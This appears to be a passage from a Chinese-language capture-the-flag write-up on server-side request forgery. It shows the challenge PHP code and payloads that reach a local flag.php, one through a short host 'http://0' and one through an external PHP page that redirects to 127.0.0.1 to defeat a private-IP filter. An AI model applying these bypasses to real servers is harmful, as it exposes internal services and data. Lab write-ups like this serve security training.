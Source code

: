 ```php
}  
else{  
    die('hacker');  
}  
?>
```
又成了不能超过3个字符
payload:
```
url=http://0/flag.php
```




# web357

```php
<?php  
error_reporting(0);  
highlight_file(__FILE__);  
$url=$_POST['url'];  
$x=parse_url($url);  
if($x['scheme']==='http'||$x['scheme']==='https'){  
$ip = gethostbyname($x['host']);  
echo '</br>'.$ip.'</br>';  
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {  
    die('ip!');  
}  
  
  
echo file_get_contents($_POST['url']);  
}  
else{  
    die('scheme');  
}  
?>
```

这一题会检测要访问的ip，如果是本地就会被过滤

这一题的解法就需要涉及到重定向
简单思路就是让它访问一个外部地址，而这个外部地址会重定向到`127.0.0.1`


```php
<?php

header("Location:http://127.0.0.1/flag.php");
```

payload:
```
url=http://<ip>
```
